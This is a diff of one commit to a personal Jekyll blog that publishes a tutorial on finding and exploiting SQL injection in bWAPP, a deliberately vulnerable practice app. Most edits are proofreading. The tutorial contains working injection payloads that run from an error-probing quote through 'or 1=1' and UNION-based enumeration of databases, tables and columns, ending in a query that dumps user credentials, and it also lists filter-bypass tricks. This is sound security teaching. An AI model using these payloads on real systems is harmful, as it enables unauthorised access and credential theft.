

Before and after one commit to EllieBorden/ellieborden.tech, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 741 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
proofread and posted

````diff
--- a/_drafts/2019/2019-04-02-sql-injection.markdown
+++ b/_posts/2019/2019-04-02-sql-injection.markdown
@@ -16,7 +16,7 @@
 - Confirmation and exploitation the vulnerability.
 - Best practices for reporting security vulnerabilities.
 
-Tools are not used in this exercise, however, some popular tools will be listed in the **Resources** section below.
+Tools are not used in this exercise, however, some popular tools will be listed in the resources section below.
 
 Code review for SQL injection will be covered in a later post.
 
@@ -59,13 +59,13 @@
 5. Login to bWAPP. The default username is **bee** and password is **bug**.
 6. Select **SQL injection (GET/Search)** from the list of bugs, then click **Hack**. You should be redirected to **bwapp/sqli_1.php**.
 
-> **NOTE:** I'm using PHP 5.6.40 and MySQL 5.7.24. You may experience different results using other versions in your test environment.
+> **NOTE:** I'm using PHP 5.6.40 and MySQL 5.7.25. You may experience different results using other versions in your test environment.
 
-Installation steps and detailed requirements are listed in **install.txt**, which is located in the root directory of the folder you downloaded in Step 1.
+These installation steps, along with detailed requirements, are also listed in **install.txt**, which is located in the root directory of the folder you downloaded in Step 1.
 
 ### Troubleshooting
 
-bWAPP/sqli_1.php connects to a database using **mysql_connect()**. This function was deprecated in PHP 5.5.0 and removed in PHP 7.0.0. If you receive a fatal error: **Call to undefined function mysql_connect()** while trying to use the search feature on this page, consider downgrading from PHP 7 to PHP 5 for this test only. Real PHP applications should run on an updated version of PHP and use [PHP Data Objects (PDO)](https://www.php.net/manual/en/book.pdo.php) to perform database queries.
+bWAPP/sqli_1.php connects to a database using **mysql_connect()**. This function was deprecated in PHP 5.5.0 and removed in PHP 7.0.0. If you receive a fatal error: **Call to undefined function mysql_connect()** while trying to use the search feature on page **bwapp/sqli_1.php**, consider downgrading from PHP 7 to PHP 5 for this test only. Real PHP applications should run on an updated version of PHP and use [PHP Data Objects (PDO)](https://www.php.net/manual/en/book.pdo.php) to perform database queries.
 
 If you encounter other errors, post them in a comments section below.
 
@@ -103,10 +103,10 @@
 
 This form contains two input variables:
 
-- **title** is defined in the **input** element and is assigned a value of whichever string is in the textbox upon form-submission.
+- **title** is defined in the **input** element and is assigned a value of whichever string is in this field upon form-submission.
 - **action** is defined in the **button** element and is assigned the value **"search"** upon submission.
 
-We can also confirm that there are no hidden inputs and that the data is submitted through a GET request. This is reflected in the URL when we enter the word "test" into the form, then click **Search**:
+We can also confirm that there are no hidden inputs and that the data is submitted through a GET request. This is reflected in the URL when we use the search function. Go back to **bwapp/sqli_1.php**, then enter "test" into the search form and click **Search**:
 
 {:style="text-align: center;"}
 ```url
@@ -120,7 +120,7 @@
 
 Now that all of the inputs within our scope have been identified, we can try to determine how those inputs are used by the application. It is important to keep all variables constant except the one being tested so that the results can be attributed to a single cause.
 
-Alter the URL parameters to perform the following tests on the **title** variable:
+Alter the **bwapp/sqli_i.php** URL to perform the following tests on the **title** parameter:
 
 URL Parameters                | Result
 ------------------------------|---------------------------------------------------------------------------------
@@ -157,12 +157,14 @@
 
 In this section, we're injecting SQL into the URL's **title** parameter. Since **title** accepts a string value and is likely wrapped in quotes, try to create a syntax error by submitting unpaired quotation marks.
 
+>**NOTE**: The URL encoding of `'` is `%27` and `"` is `%22`.
+
 URL Parameters         | Result
 -----------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------
-<span style="white-space: nowrap;">?title='&action=search</span> | 'Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1' is returned.
-<span style="white-space: nowrap;">?title="&action=search</span> | 'No movies were found!' is returned.
+<span style="white-space: nowrap;">?title=%27&action=search</span> | 'Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1' is returned.
+<span style="white-space: nowrap;">?title=%22&action=search</span> | 'No movies were found!' is returned.
 
-The application returns a MySQL error indicating single quotes are being interpreted as code and break the query:
+The application returns a MySQL error indicating the single quote is being interpreted as code and breaks the query:
 
 <!--
 The following codeblock messes up syntax highlighting beneath it if not converted to HTML.
@@ -170,7 +172,7 @@
 
 
 ```sql
-/* ?title=iron */
+/* ?title=iron - An anticipated search, which works as intended. */
 
 SELECT title, release, character, genre, imdb
 FROM movie
@@ -178,7 +180,7 @@
 ORDER BY title ASC;
 
 
-/* ?title=' */
+/* ?title=%27 - An unanticipated search, which breaks the query. */
 
 SELECT title, release, character, genre, imdb
 FROM movie
@@ -192,7 +194,7 @@
 <div class="language-sql highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="cm">/* Visualization of the Potential Database Queries */</span>
 
 
-<span class="cm">/* ?title=iron */</span>
+<span class="cm">/* ?title=iron - An anticipated search, which works as intended. */</span>
 
 <span class="k">SELECT</span> <span class="n">title</span><span class="p">,</span> <span class="n">release</span><span class="p">,</span> <span class="n">character</span><span class="p">,</span> <span class="n">genre</span><span class="p">,</span> <span class="n">imdb</span>
 <span class="k">FROM</span> <span class="n">movie</span>
@@ -200,7 +202,7 @@
 <span class="k">ORDER</span> <span class="k">BY</span> <span class="n">title</span> <span class="k">ASC</span><span class="p">;</span>
 
 
-<span class="cm">/* ?title=' */</span>
+<span class="cm">/* ?title=%27 - An unanticipated search, which breaks the query. */</span>
 
 <span class="k">SELECT</span> <span class="n">title</span><span class="p">,</span> <span class="n">release</span><span class="p">,</span> <span class="n">character</span><span class="p">,</span> <span class="n">genre</span><span class="p">,</span> <span class="n">imdb</span>
 <span class="k">FROM</span> <span class="n">movie</span>
@@ -210,7 +212,7 @@
 
 <!-- ===================================================================  -->
 
-> **NOTE**: It is almost never this easy. Most applications have partial validation or are protected by firewalls and intrusion prevention software. Some techniques for bypassing common defenses include:
+> **NOTE**: It is almost never this easy. Most applications have custom error messages, partial validation, or are protected by firewalls and intrusion prevention software. Some techniques for bypassing common defenses include:
 >
 - Adding whitespace
 - Changing the case of keywords
@@ -226,9 +228,9 @@
 URL Parameters                        | Result
 --------------------------------------|------------------------------------
 ?test=iron&action=Search              | The movie 'Iron Man' is returned.
-?title=iron'+or+1=1+-\-+&action=search | Presumably all movies are returned.
+?title=iron%27+or+1=1+-\-+&action=search | Presumably all movies are returned.
 
-The second request queries the database to select all movies where the title is like "%iron%" or where 1 is equal to 1. Since 1 is always equal to 1, the database selects all movies. The hyphens at the end comments out everything that follows, preventing the DBMS from parsing the remainder of the query.
+The second request queries the database to select all movies where the title is like "%iron%" or where 1 is equal to 1. Since 1 is always equal to 1, the database selects all movies. The hyphens at the end of the statement comment-out everything that follows, preventing the DBMS from parsing the remainder of the query.
 
 <!--
 The following codeblock messes up syntax highlighting beneath it if not converted to HTML.
@@ -242,7 +244,7 @@
 ORDER BY title ASC;
 
 
-/* ?title=' */
+/* ?title=%27 */
 
 SELECT title, release, character, genre, imdb
 FROM movie
@@ -263,7 +265,7 @@
 <span class="k">ORDER</span> <span class="k">BY</span> <span class="n">title</span> <span class="k">ASC</span><span class="p">;</span>
 
 
-<span class="cm">/* ?title=' */</span>
+<span class="cm">/* ?title=%27 */</span>
 
 <span class="k">SELECT</span> <span class="n">title</span><span class="p">,</span> <span class="n">release</span><span class="p">,</span> <span class="n">character</span><span class="p">,</span> <span class="n">genre</span><span class="p">,</span> <span class="n">imdb</span>
 <span class="k">FROM</span> <span class="n">movie</span>
@@ -277,7 +279,7 @@
 
 We've proven that we can successfully submit SQL syntax to alter a database query. If this is as far as we could go, it would still be worth reporting, however, it is almost always better to provide a proof of concept in the bug report. (Especially for bug bounties.)
 
-><span class="warning">**IMPORTANT**</span>: Don't compromise an application or data that is in production.
+><span class="warning">**IMPORTANT**</span>: Don't compromise an application or data that is in production. If you're unsure if you should proceed, talk to your supervisor or the person who authorized the test.
 
 #### Union Based Exploitation
 
@@ -291,7 +293,7 @@
 UNION
 SELECT column_one, column_two FROM table_two;
 
-/* This query would return all data in the column_one and column_two of both table_one and table_two. */
+/* This query would return all data in column_one and column_two of both table_one and table_two. */
 
 ```
 
@@ -300,27 +302,27 @@
 - Both data sets must have the same number of columns.
 - All data within a column must have a compatible data type. E.g. Strings cannot be combined with a numerical column.
 
-The movie table has 5 columns displayed in the application, so modify the URL to union a select statement with 5 columns. If an error is returned add an additional column. Continue to add columns to the select statement until the query is successful.
+The movie table has 5 columns displayed in the application, so modify the URL to union a select statement with 5 columns. If an error is returned, add an additional column. Continue to add and submit columns to the select statement until the query is successful.
 
 
 URL Parameters                                  | Result
 ------------------------------------------------|--------------------------------------------------------------------------------------------
-?title='UNION+SELECT+1,2,3,4,5+--+&action=1     | 'Error: The used SELECT statements have a different number of columns' is returned.
-?title='UNION+SELECT+1,2,3,4,5,6+--+&action=1   | 'Error: The used SELECT statements have a different number of columns' is returned.
-?title='UNION+SELECT+1,2,3,4,5,6,7+--+&action=1 | Presumably all movies are returned followed by a row containing the numbers 2, 3, 5, and 4.
+?title=%27UNION+SELECT+1,2,3,4,5+-\-+&action=search     | 'Error: The used SELECT statements have a different number of columns' is returned.
+?title=%27UNION+SELECT+1,2,3,4,5,6+-\-+&action=search   | 'Error: The used SELECT statements have a different number of columns' is returned.
+?title=%27UNION+SELECT+1,2,3,4,5,6,7+-\-+&action=search | Presumably all movies are returned followed by a row containing the numbers 2, 3, 5, and 4.
 
-This indicates that the table which the application is querying contains 7 columns, but is only displaying 4 of those columns. Columns 2, 5, and 4, allow text data type. Column 3 is either a number or text data type.
+This indicates that the table which the application is querying contains 7 columns, but only 4 of those columns are displayed within the application itself. Columns 2, 5, and 4, allow text data type. Column 3 is either a number or text data type.
 
 #### Fingerprinting
 
 Now we can begin to union more useful selections in place of the displayed numbers. Submit the following GET request to determine the database user, version number, name, and schema:
 
 {:style="overflow: auto; white-space: nowrap;"}
- `?title='UNION+SELECT+1,current_user(),@@version,database(),schema(),6,7+--+&action=1`
+ `?title=%27UNION+SELECT+1,current_user(),@@version,database(),schema(),6,7+--+&action=search`
 
 The variables and functions in this query are built into MySQL. I pulled them from a generic MySQL injection cheat sheet. You can find links to SQLi payloads in the resources section below or by using any search engine, such as DuckDuckGo.
 
-The reason I know we are working with MySQL is because the error message that was returned from the `?title=&action=search` request included the phrase "MySQL server". If a verbose error message was not returned, you could determine the DBMS by submitting database-specific operators and identifying which ones execute successfully.
+The reason I know we are working with MySQL is because the error message that was returned from the `?title=%27&action=search` request included the phrase "MySQL server". If a verbose error message was not returned, you could determine the DBMS by submitting database-specific operators and identifying which ones execute successfully.
 
 E.g. The concatenation operator:
 
@@ -335,26 +337,41 @@
 
 #### Enumerating Databases
 
-Information_schema is default database on MySQL servers which contains metadata about the server.
+Information_schema is a default database on MySQL servers which contains metadata about the server.
 
-Replace one of the unioned columns with "schema_name" in the select statement from the information_schema.schemata table to determine the names of the databases on a MySQL 5.7.25 server.
+Manipulate the previous GET request to return the name of all databases on the server:
+
+1. Replace the value of one of the columns that are displayed on the page with **schema_name**.
+2. Add a **FROM information_schema.schemata** clause to the end of the statement.
 
 {:style="overflow: auto; white-space: nowrap;"}
- `?title='UNION+SELECT+1,schema_name,3,4,5,6,7+FROM+information_schema.schemata--+&action=1`
+ `?title=%27UNION+SELECT+1,schema_name,3,4,5,6,7+FROM+information_schema.schemata--+&action=search`
 
- The default database name for bWAPP is "bWAPP".
+These are my results, but yours may vary depending on your enviroment:
+
+
+Databases          |
+------------------ |
+information_schema |
+bWAPP              |
+mysql              |
+performance_schema |
+sys                |
+
+
+The default database name for bWAPP is "bWAPP".
 
 #### Enumerating Tables
 
 Select table_schema and table_name from information_schema.tables:
 
 {:style="overflow: auto; white-space: nowrap;"}
-`?title='UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+--+&action=1`
+`?title=%27UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+--+&action=search`
 
 This returns all tables for all databases. If you only want to show the tables in bWAPP, append a WHERE clause to the previous query:
 
 {:style="overflow: auto; white-space: nowrap;"}
-`?title='UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+WHERE+table_schema="bWAPP"--+&action=1`
+`?title=%27UNION+SELECT+1,table_schema,3,table_name,5,6,7+FROM+information_schema.tables+WHERE+table_schema="bWAPP"--+&action=search`
 
 Results:
 
@@ -368,10 +385,10 @@
 
 #### Enumerating Columns
 
-Let's check out the 'users' table. Select table_name and column_name from information_schema.columns where table_name is equal to "users":
+Let's check out the **users** table. Select table_name and column_name from information_schema.columns where table_name is equal to "users":
 
 {:style="overflow: auto; white-space: nowrap;"}
-`?title='UNION+SELECT+1,table_name,3,column_name,5,6,7+FROM+information_schema.columns+WHERE+table_name="users"--+&action=1`
+`?title=%27UNION+SELECT+1,table_name,3,column_name,5,6,7+FROM+information_schema.columns+WHERE+table_name="users"--+&action=search`
 
 
 Results:
@@ -390,12 +407,12 @@
 users | CURRENT_CONNECTIONS
 users | TOTAL_CONNECTIONS
 
-#### Dumping the Users Table
+#### Dumping User Credentials
 
 The **users** table has 11 columns, but we only have four columns to work with. I am mostly interested in the username, password, email, and user permissions, so let's select those.
 
 {:style="overflow: auto; white-space: nowrap;"}
-`?title='UNION+SELECT+1,login,admin,password,email,6,7+FROM+users--+&action=1`
+`?title=%27UNION+SELECT+1,login,admin,password,email,6,7+FROM+users--+&action=search`
 
 Results:
 
````
